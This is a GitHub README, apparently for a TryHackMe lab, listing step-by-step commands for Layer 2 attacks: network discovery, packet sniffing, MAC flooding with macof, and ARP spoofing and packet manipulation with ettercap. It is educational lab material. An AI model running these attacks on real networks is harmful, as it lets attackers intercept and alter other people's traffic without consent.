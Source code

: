 # Layer2-Network-Attacks   

## Overview  
This repository explores Layer 2 network attacks, including **MAC flooding**, **ARP spoofing**, and **Man-in-the-Middle (MITM) attacks**. It covers methodologies, tools used, and mitigation techniques based on practical exercises from the **TryHackMe Layer2** room.  

## Attacks Covered  
- **Network Discovery** – Identifying active hosts and their details.   
- **Passive Network Sniffing** – Capturing and analyzing network traffic.  
- **MAC Flooding** – Overloading a switch to force traffic broadcast.   
- **ARP Spoofing** – Redirecting traffic by poisoning ARP tables.  
- **MITM Sniffing** – Intercepting and analyzing communications.  
- **MITM Manipulation** – Modifying network packets in transit.  

## Tools Used   
- `Nmap` – Network scanning and host discovery  
- `Tcpdump` – Packet capture and traffic analysis  
- `Macof` – MAC flooding attack tool  
- `Ettercap` – ARP spoofing and MITM attack tool  
- `Etterfilter` – Packet filtering and manipulation tool  

## Execution Steps  

```bash
# 1. Network Discovery  
sudo ip address show dev eth1  # Check interface details  
nmap -sn <target IP range>  # Discover active hosts  

# 2. Passive Network Sniffing  
tcpdump -A -i eth1 -w /tmp/tcpdump.pcap  
wireshark /tmp/tcpdump.pcap  # Open and analyze packet capture  

# 3. MAC Flooding Attack  
macof -i eth1  # Flood switch with fake MAC addresses  

# 4. ARP Spoofing with Ettercap  
ettercap -T -i eth1 -M arp  # Execute ARP spoofing attack  

# 5. MITM Sniffing  
nmap -n <IP range>  # Discover hosts  
ettercap -T -i eth1 -M arp  # Intercept and capture network traffic  

# 6. MITM Manipulation with Etterfilter  
etterfilter <filter_file> -o <compiled_filter_file>  
ettercap -T -q -F <compiled_filter_file> -i eth1  
